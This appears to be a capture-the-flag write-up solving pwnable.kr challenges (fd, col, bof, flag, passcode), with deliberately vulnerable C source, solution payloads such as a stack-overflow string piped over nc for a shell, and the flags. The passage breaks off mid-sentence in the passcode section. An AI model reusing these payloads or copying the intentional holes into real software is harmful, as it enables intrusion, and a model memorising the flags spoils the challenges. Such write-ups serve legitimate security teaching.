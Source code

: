 # fd

`fd.c`:
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
        if(argc<2){
                printf("pass argv[1] a number\n");
                return 0;
        }
        int fd = atoi( argv[1] ) - 0x1234;
        int len = 0;
        len = read(fd, buf, 32);
        if(!strcmp("LETMEWIN\n", buf)){
                printf("good job :)\n");
                system("/bin/cat flag");
                exit(0);
        }
        printf("learn about Linux file IO\n");
        return 0;

}
```

Pass in 0x1234 (4660) as input so that fd = 0 (so the program reads from STDIN). Then type "LETMEWIN", press enter, and get the flag.

flag: `mommy! I think I know what a file descriptor is!!`

# col

`col.c`:
```
#include <stdio.h>
#include <string.h>
unsigned long hashcode = 0x21DD09EC;
unsigned long check_password(const char* p){
        int* ip = (int*)p;
        int i;
        int res=0;
        for(i=0; i<5; i++){
                res += ip[i];
        }
        return res;
}

int main(int argc, char* argv[]){
        if(argc<2){
                printf("usage : %s [passcode]\n", argv[0]);
                return 0;
        }
        if(strlen(argv[1]) != 20){
                printf("passcode length should be 20 bytes\n");
                return 0;
        }

        if(hashcode == check_password( argv[1] )){
                system("/bin/cat flag");
                return 0;
        }
        else
                printf("wrong passcode.\n");
        return 0;
}
```

We have to input a string that's 20 bytes, then the check_password function takes every 4 bytes as an int (the function takes the char pointer to our input and casts it to a int pointer and because ints are 4 bytes in c when we dereference the pointer we are getting 4 bytes of our string as opposed to just one if we have a char pointer) and adds all of the ints up and if it equals 0x21DD09EC we get the flag. We can't use \x00 or null bytes because then strlen will calculate our string input wrong cause null bytes will make our string appear "terminated". 

Running the following command will get us the flag: ``./col `python -c 'print "\xe8\x05\xd9\x1d"+"\x01"*16'``

flag: `daddy! I just managed to create a hash collision :)`

# bof

`bof.c`:
```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

Classic buffer overflow question. In the assembly we see that `$ebp-0x2c` is set for the buffer, and it checks if `$ebp + 0x8 == 0xcafebabe`. So we input 52 A's, then 0xcafebabe (in little endian, so "backwards"). 

We accomplish this with the following payload: `python -c "print 'A'*52+'\xbe\xba\xfe\xca'"`. However, it seems the program checks for stack smashing, so what we need to do is keep STDIN open once we get our shell, cause the program only checks for stack smashing at the end of the `func` function. Because of this, we modify our payload: `(python -c "print 'A'*52+'\xbe\xba\xfe\xca'"; cat)`. 

We now run `(python -c "print 'A'*52+'\xbe\xba\xfe\xca'"; cat) | nc pwnable.kr 9000`, see that we do indeed have a shell, then run `ls`, see the flag file, and then run `cat flag` to get our flag.

flag: `daddy, I just pwned a buFFer :)`

# flag

This is a reversing question, so we're not given a c file, just the binary. If we try to load the binary in IDA, we see that many of the functions were unable to decompiled, and in GDB we can't seem to find the `main` function. Running `strings` on the binary file reveals that it was packed with [UPX](https://upx.github.io/). So we download UPX and unpack the file, getting a new binary. Now if we load this new binary into IDA, we see that everything decompiled successfully. If we look at the assembly of the `main` function, we see a variable called `flag`. We double click it and it reveals a string that looks like our answer.

flag: `UPX...? sounds like a delivery service :)`

# passcode

`passcode.c`:
```
#include <stdio.h>
#include <stdlib.h>

void login(){
        int passcode1;
        int passcode2;

        printf("enter passcode1 : ");
        scanf("%d", passcode1);
        fflush(stdin);

        // ha! mommy told me that 32bit is vulnerable to bruteforcing :)
        printf("enter passcode2 : ");
        scanf("%d", passcode2);

        printf("checking...\n");
        if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
                exit(0);
        }
}

void welcome(){
        char name[100];
        printf("enter you name : ");
        scanf("%100s", name);
        printf("Welcome %s!\n", name);
}

int main(){
        printf("Toddler's Secure Login System 1.0 beta.\n");

        welcome();
        login();

        // something after login...
        printf("Now I can safely trust you that you have credential :)\n");
        return 0;
}
```

The vulnerability in this question lies with the `scanf` where the program asks to enter `passcode1` and `passcode2`. You're supposed to pass in an address of a variable as the 2nd parameter, but the actual variable is passed in instead. So when we run the program, if we type in a random string, we will get a segmentation fault, because the program is expecting our input to be a pointer to something in the memory. If we give it a pointer that points to nothing in the memory (an illegal memory location), we get a segmentation fault. As a result, we are probably not going to able to find a pointer that points to We can exploit this to our advantage as follows


